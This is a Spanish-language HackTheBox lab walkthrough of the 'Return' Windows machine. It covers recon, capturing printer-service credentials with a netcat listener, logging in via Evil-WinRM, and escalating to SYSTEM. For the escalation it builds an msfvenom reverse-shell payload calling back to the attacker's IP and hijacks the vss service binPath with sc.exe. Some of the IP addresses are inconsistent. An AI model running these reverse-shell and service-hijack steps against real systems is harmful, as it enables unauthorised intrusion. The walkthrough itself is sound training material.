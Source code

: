 # Return

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## 1. Información Inicial
- **Objetivo:** Obtener las tres llaves mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `wget`, `hydra`, `reverse shell`, `gtfobins`, `crackstation`, `netcat`, `find`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo  con `Nmap` para identificar los servicios abiertos, aunque viendo los puertos 139 y 445 sabemos que se trata de un Active Directory.
```bash 
nmap -sC -sV -Pn -p- -sS 10.129.95.241
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Añadiremos la máqunia al fichero /etc/hosts con el dominio que nos muestra LDAP:
```bash 
echo "110.129.95.241 return.local" | sudo tee -a /etc/hosts
```

Tras analizar los puertos básicos como SMB y no encontrar nada, precedemos a examinar el sitio web

![Vista previa del sitio web](screenshots/2.sitio_web.png)

En el sitio web encontramos un panel de administración para la gestión de impresoras. Si accedemos a la opción Settings tenemos varios parámetros como el servidor al que conectarse, el puerto, el usuario y una contraseña.

![Vista de Settings en sitio web](screenshots/3.web_settings.png)

## 3. Explotación

Guardaremos el nombre del usuario por si nos puede servir en un futuro, y luego cambiamos la dirección del servidor por nuestra dirección IP. 

De esta manera, recibiremos una petición de conexión y debemos de tener a la escucha `netcat` para recibirla

```bash 
nc -lvnp 389
```
![Netcat recibiendo conexión](screenshots/4.netcat.png)

Al establecerse la conexión, recibimos un mensaje que parece una credencial de contraseña: `1edFg43012!!`

Podría estar relacionada con el nombre de usuario encontrado en la web, y de esa manera tener las credenciales completas: `svc-printer:1edFg43012!!`

Teniendo en cuenta que con Nmap hemos descubierto que se trataba de un Active Directory, vamos a usar las credenciales para entrar al servicio de administración remota de Windows con `Evil-WinRM`:

```bash 
evil-winrm -i 110.129.95.241 -u svc-printer -p '1edFg43012!!
```

![Accediendo por Evil-WinRM](screenshots/5.evilwinrm.png)

## 4. Postexplotación

Hemos conseguido acceso a través de la herramienta Evil-WinRM y estamos dentro del sistema, por lo que vamos a comenzar a buscar algún punto vulnerable para escalar privilegios.

Tras algunas enumeraciones, se nos ocurre ver los grupos a los que pertenece el usuario desde el que hemos accedido.

```bash 
net user svc-printer
```

![Comprobación de grupos a los que pertenece el usuario](screenshots/6.grupos_usuario.png)

El usuario pertenece al grupo Server Operators, desde el cuál puede iniciar y parar servicios o hacer y restaurar backups, entre otras funciones.

La idea es crear un exploit con MSFVenom, subirlo por Evil-WinRM y ejecutarlo para recibir una conexión desde Multi/Handler.

```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=1337 -f exe > shell-x86.exe
```

![Poniendo a la escucha Multi/Handler a través de Metasploit](screenshots/7.multi_handler.png)

```bash 
msfconsole
```
```bash 
use exploit/multi/handler
```
```bash 
set PAYLOAD windows/meterpreter/reverse_tcp
```
```bash 
set LHOST 10.10.14.39
```
```bash 
set LPORT 1337
```
```bash 
run
```

Ahora vamos a subir el fichero a la máquina víctima aprovechando los permisos que le otorga su grupo para poder obtener una shell.

Investigando por internet, di con una metodología que funcionaba cuando el usuario formaba parte de este grupo, y es que debemos de subir el fichero y utilizando sc.exe (ServiceControl) vamos a modificar un servicio (vss) para indicarle al sistema que su PATH es distinto (será la ubicación de nuestro fichero malicioso).

De esta manera, cada vez que se ejecute el servicio vss se estará ejecutando el exploit de MSFVenom.

```bash 
upload shell-x86.exe
```
```bash 
cd C:\
```
```bash 
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell-x86.exe"
```
```bash 
sc.exe start vss
```
![Modificación y ejecución del exploit](screenshots/8.ejecutar_script.png)

Con Metasploit a la escucha y el exploit ejecutado, solo queda recibir la conexión a Meterpreter por parte de la máquina víctima.

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/9.meterpreter.png)

Con la sesión de meterpreter aún no tenemos todos los privilegios necesarios, por lo que listamos los procesos y encontramos el proceso VGAuthService.exe (Servicio de VMWare Tools que se ejecuta como SYSTEM). Migramos la sesión de Meterpreter a ese proceso y estaremos obteniendo permisos de NT AUTHORITY/SYSTEM.
```bash 
ps
```
```bash 
migrate <pid_proceso_ntauthority\system>
```
```bash 
shell
```

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/10.escala_administrador.png)
